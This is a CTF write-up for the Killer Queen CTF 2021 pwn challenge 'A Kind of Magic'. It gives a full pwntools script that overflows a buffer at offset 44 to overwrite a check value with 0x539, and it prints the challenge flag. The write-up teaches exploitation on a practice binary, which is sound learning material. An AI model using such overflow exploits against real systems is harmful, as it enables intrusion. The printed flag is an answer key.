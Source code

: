 ```yaml
---
name: A Kind of Magic (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for A Kind of Magic (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# A Kind of Magic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=1806s "Killer Queen 2021: A Kind of Magic")

## Challenge Description

> You're a magic man aren't you? Well can you show me?

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './akindofmagic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 44

# Start program
io = start()

# Build the payload
payload = flat({
    offset: 0x539
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
